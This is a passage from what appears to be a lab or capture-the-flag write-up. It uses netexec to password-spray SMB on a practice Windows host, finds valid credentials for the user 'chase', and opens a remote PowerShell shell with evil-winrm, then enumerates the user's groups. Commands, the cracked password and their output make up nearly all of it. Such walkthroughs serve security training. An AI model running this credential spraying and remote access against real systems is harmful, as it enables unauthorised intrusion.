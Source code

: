 `netexec smb 10.10.10.149 -u ./users.txt -p ./cisco_passwords.txt --continue-on-success`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)

[...]

SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d🔑 
```

`netexec winrm 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'`:
```
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```
🐚

![Victim: chase](https://custom-icon-badges.demolab.com/badge/Victim-chase-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
supportdesk\chase
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name         SID
================= ==============================================
supportdesk\chase S-1-5-21-4254423774-1266059056-3197185112-1012


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
```